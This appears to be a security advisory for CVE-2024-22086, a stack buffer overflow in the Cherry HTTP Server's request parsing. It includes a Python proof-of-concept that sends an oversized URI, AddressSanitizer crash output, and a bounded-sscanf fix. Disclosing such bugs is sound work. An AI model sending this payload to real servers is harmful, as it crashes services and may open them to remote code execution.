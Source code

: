 # CVE-2024-22086

I discovered a remote stack buffer overflow vulnerability in the Cherry HTTP Server through commit 4b877df in handle_request() at http.c, line 54:
```
sscanf(buf, "%s %s %s", method, uri, version); // for example, GET / HTTP/1.1
```

Any project that utilizes cherry is vulnerable to remote code execution.  I have outlined the reproduction steps below, and offer some mitigations that can be implemented to prevent a buffer overflow.

### Makefile Modifications

The following modifications were made to the Makefile to compile cherry with address sanitizer and debug symbols. The purpose of this is to track and verify the location of the stack buffer overflow vulnerability:

```
CC=gcc
CFLAGS= -Wall -Wextra -DLOG_USE_COLOR -fsanitize=address -g

.PHONY: clean

cherry: server.c log.c rio.c http.c epoll.c task.c utils.c
	$(CC) $^ -o $@ $(CFLAGS)

clean:
	rm cherry a.out
	
```

### Compiling Cherry

```
$ make
```

### Proof of Concept Python3 Script

Save the following script to a file named poc.py. The script will send an HTTP request with a malformed URI (2,000,000 bytes long) to cherry and wait for a response:

```
#!/usr/bin/env python3

import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("localhost", 3333))
sock.send(b"GET /"+b"C"*2000000+b"HTTP/1.1\r\nHost:localhost:3333\r\n\r\n")
response = sock.recv(4096)
sock.close()

```

### Starting Cherry

```
./cherry
```

### Executing our Python3 Script

```
# python3 poc.py
```

### Address Sanitizer Output

The following output was produced by address sanitizer: 

```
==3024==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7fcf196002f0 at pc 0x7fcf1b087791 bp 0x7ffc4e0bf090 sp 0x7ffc4e0be850
WRITE of size 8188 at 0x7fcf196002f0 thread T0
    #0 0x7fcf1b087790 in scanf_common ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors_format.inc:342
    #1 0x7fcf1b0883fe in __interceptor___isoc99_vsscanf ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:1612
    #2 0x7fcf1b0884ee in __interceptor___isoc99_sscanf ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:1635
    #3 0x55a0ffa0561d in handle_request /home/kali/projects/fuzzing/cherry/src/http.c:54
    #4 0x55a0ffa072c7 in request_handler /home/kali/projects/fuzzing/cherry/src/utils.c:57
    #5 0x55a0ffa03908 in main /home/kali/projects/fuzzing/cherry/src/server.c:69
    #6 0x7fcf1ae456c9 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #7 0x7fcf1ae45784 in __libc_start_main_impl ../csu/libc-start.c:360
    #8 0x55a0ffa03450 in _start (/home/kali/projects/fuzzing/cherry/src/cherry+0x4450) (BuildId: f07795ccbe440d35fcd7b1ea59114aa3d9bc6d55)

Address 0x7fcf196002f0 is located in stack of thread T0 at offset 752 in frame
    #0 0x55a0ffa05370 in handle_request /home/kali/projects/fuzzing/cherry/src/http.c:35

  This frame has 7 object(s):
    [32, 176) 'sbuf' (line 41)
    [240, 752) 'uri' (line 37)
    [816, 1328) 'version' (line 37) <== Memory access at offset 752 partially underflows this variable
    [1392, 1904) 'filename' (line 40) <== Memory access at offset 752 partially underflows this variable
    [1968, 10160) 'method' (line 37) <== Memory access at offset 752 partially underflows this variable
    [10416, 18608) 'buf' (line 38)
    [18864, 27072) 'rio' (line 36)
HINT: this may be a false positive if your program uses some custom stack unwind mechanism, swapcontext or vfork
      (longjmp and C++ exceptions *are* supported)
SUMMARY: AddressSanitizer: stack-buffer-overflow ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors_format.inc:342 in scanf_common
Shadow bytes around the buggy address:
  0x7fcf19600000: f1 f1 f1 f1 00 00 00 00 00 00 00 00 00 00 00 00
  0x7fcf19600080: 00 00 00 00 00 00 f2 f2 f2 f2 f2 f2 f2 f2 00 00
  0x7fcf19600100: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7fcf19600180: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7fcf19600200: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x7fcf19600280: 00 00 00 00 00 00 00 00 00 00 00 00 00 00[f2]f2
  0x7fcf19600300: f2 f2 f2 f2 f2 f2 00 00 00 00 00 00 00 00 00 00
  0x7fcf19600380: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7fcf19600400: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7fcf19600480: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7fcf19600500: 00 00 00 00 00 00 f2 f2 f2 f2 f2 f2 f2 f2 00 00
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==3024==ABORTING


```

From the output we can verify that a WRITE of size 8188 at occurred in thread T0.

### Mitigation

The issue with the code is that it doesn't limit the number of characters read into each string. This can cause a buffer overflow if the input strings are longer than the buffers allocated for method, uri, and version. To fix this, you need to specify maximum field widths in the sscanf format string. These widths should be at least one less than the size of the buffers (to leave space for the null terminator):

Buffer overflow vulnerability:

```
sscanf(buf, "%s %s %s", method, uri, version); // for example, GET / HTTP/1.1 
```

Modified code preventing a buffer overflow:
```
sscanf(buf, "%5000s %300s %300s", method, uri, version); // for example, GET / HTTP/1.1 
```

### References

* https://cwe.mitre.org/data/definitions/121.html
* https://owasp.org/www-community/vulnerabilities/Buffer_Overflow
* https://github.com/google/sanitizers/wiki/AddressSanitizer
* https://www.cve.org/CVERecord?id=CVE-2024-22086
